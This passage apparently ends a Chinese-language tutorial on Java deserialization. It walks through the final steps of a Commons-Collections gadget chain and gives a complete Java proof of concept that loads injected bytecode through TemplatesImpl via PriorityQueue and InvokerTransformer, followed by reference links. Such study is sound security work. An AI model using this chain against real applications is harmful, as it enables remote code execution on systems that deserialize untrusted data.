 实例化 `PriorityQueue` ，向队列里添加的元素是前面创建的 `TemplatesImpl` 对象：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```java<br>PriorityQueue queue = new PriorityQueue(2, comparator);<br>queue.add(obj);<br>queue.add(obj);<br>``` |

原因很简单，和上一篇文章相同，因为我们这里无法再使用 `Transformer` 数组，所以也就不能用 `ConstantTransformer` 来初始化变量，需要接受外部传入的变量。而在 `Comparator#compare()` 时，队列里的元素将作为参数传入 `transform()` 方法，这就是传给 `TemplatesImpl#newTransformer` 的参数。

最后一步，将 `toString` 方法改成恶意方法 `newTransformer` :

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```java<br>setFieldValue(transformer, "iMethodName", "newTransformer");<br>``` |

最终的 POC：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>``` | ```java<br>public static void main(String[] args) throws Exception {<br>    TemplatesImpl obj = new TemplatesImpl();<br>    setFieldValue(obj, "_bytecodes", new byte[][]{getBytescode()});<br>    setFieldValue(obj, "_name", "HelloTemplatesImpl");<br>    setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());<br>    <br>    Transformer transformer = new InvokerTransformer("toString", null, null);<br>  <br>    Comparator comparator = new TransformingComparator(transformer);<br>  <br>    PriorityQueue queue = new PriorityQueue(2, comparator);<br>    queue.add(obj);<br>    queue.add(obj);<br>  <br>    setFieldValue(transformer, "iMethodName", "newTransformer");<br>  <br>    ByteArrayOutputStream barr = new ByteArrayOutputStream();<br>    ObjectOutputStream oos = new ObjectOutputStream(barr);<br>    oos.writeObject(queue);<br>    oos.close();<br><br>    ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));<br>    Object o = (Object)ois.readObject();<br>}<br>``` |

## [](#%E5%8F%82%E8%80%83)参考

[phith0n Java 漫谈系列](https://wx.zsxq.com/dweb2/index/group/2212251881)

[Java 反序列化漏洞原理解析](https://xz.aliyun.com/t/6787#toc-11)

[Java 反序列化漏洞从入门到关门](https://www.freebuf.com/articles/web/271275.html)

[从 0 开始学 Java 反序列化漏洞](https://yinwc.github.io/2020/02/08/java%e5%8f%8d%e5%ba%8f%e5%88%97%e5%8c%96%e6%bc%8f%e6%b4%9e/)

[深入理解 JAVA 反序列化漏洞](https://paper.seebug.org/312/)

[Java 反序列化利用链补全计划](https://0range228.github.io/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE%E8%A1%A5%E5%85%A8%E8%AE%A1%E5%88%92/)

[Commons-Collections 利用链分析](https://mp.weixin.qq.com/s/sraJ2K9R2CkLHiCcPK0wrA)
